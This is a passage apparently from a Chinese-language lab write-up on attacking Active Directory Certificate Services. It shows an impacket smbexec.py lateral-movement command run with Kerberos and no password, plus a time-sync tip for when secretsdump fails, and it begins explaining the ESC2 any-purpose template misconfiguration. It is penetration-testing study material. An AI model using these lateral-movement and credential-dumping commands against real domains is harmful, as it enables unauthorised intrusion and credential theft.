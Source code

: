 ```bash
横向移动
smbexec.py -no-pass -k ad.penson.com
```

如果 secretsdump 报错，同步一下时间

```bash
sudo apt install ntpdate
sudo ntpdate 172.16.0.106
```

这里有些环境需要配一下 dns 解析，linux 方便些，所以采用 kali  
[![](assets/1708508972-a1bc9ca593319fff8d4974e05f70a172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165900-4a028090-cfce-1.png)

[![](assets/1708508972-1b0295c2b04d3f3d3b9a5db9cfed5a56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165609-e3b921ea-cfcd-1.png)

# ESC2

ESC2 是指证书模板可用于任何目的。由于该证书可用于任何目的，因此对于大多数证书模板来说，它可用于与 ESC3 相同的技术。和 ESC1 差别不大

## 环境搭建

刚开始和 esc1 一样
